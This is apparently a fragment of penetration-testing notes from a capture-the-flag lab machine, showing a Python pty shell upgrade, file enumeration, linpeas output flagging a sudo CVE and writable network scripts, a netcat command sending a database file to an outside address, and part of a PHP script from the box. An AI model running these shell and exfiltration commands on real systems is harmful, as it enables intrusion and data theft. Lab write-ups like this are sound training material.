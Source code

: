 
python -c "import pty;pty.spawn('/bin/bash')"

bash-4.2$ pwd 
/home
bash-4.2$ find .
.
./guly
./guly/.bash_logout
./guly/.bash_profile
./guly/.bashrc
./guly/.bash_history
./guly/check_attack.php
./guly/user.txt
./guly/crontab.guly
./guly/.viminfo


bash-4.2$ cat user.txt 
cat: user.txt: Permission denied


linpeas.sh


Linux version 3.10.0
Sudo version 1.8.23: CVE-2019-18634

/var/mail/guly

[+] Can I write in network-scripts? ......
 You have write privileges on /etc/sysconfig/network-scripts/ifdown
/etc/sysconfig/network-scripts/ifdown-isdn
/etc/sysconfig/network-scripts/ifup
/etc/sysconfig/network-scripts/ifup-isdn  

root       3650  0.0  1.7 573924 16932 ?        Ssl  10:57   0:00 /usr/bin/python2 -Es /usr/sbin/tuned -l -P

passwd file: /var/lib/yum/history/history-2019-07-02.sqlite


nc 10.10.14.5 1337 < /var/lib/yum/history/history-2019-07-02.sqlite

```php
bash-4.2$ cat /home/guly/check_attack.php 
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
```